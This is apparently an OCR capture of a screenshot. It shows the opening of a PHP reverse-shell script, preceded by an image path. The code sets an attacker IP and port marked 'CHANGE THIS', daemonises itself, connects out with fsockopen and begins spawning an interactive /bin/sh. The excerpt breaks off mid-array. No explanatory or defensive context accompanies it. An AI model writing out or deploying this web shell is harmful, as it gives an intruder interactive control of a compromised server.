 ```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.2.40.5';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
```